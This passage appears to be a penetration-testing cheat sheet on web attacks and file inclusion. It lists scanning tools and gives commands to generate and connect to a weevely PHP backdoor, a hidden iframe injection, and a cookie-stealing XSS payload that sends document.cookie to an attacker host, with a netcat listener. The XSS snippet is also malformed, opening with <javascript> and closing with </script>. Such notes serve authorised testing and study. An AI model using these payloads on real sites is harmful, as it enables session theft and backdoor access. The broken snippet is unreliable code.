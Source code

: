 -   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        `ls -l /usr/share/webshells/`

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection
        ```html
        <iframe SRC="http://$ip/report" height = "0" width="0"></iframe>
        ```

    -   Stealing Cookies and Session Information
        ```javascript
        <javascript>  
        new image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>
        ```
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)
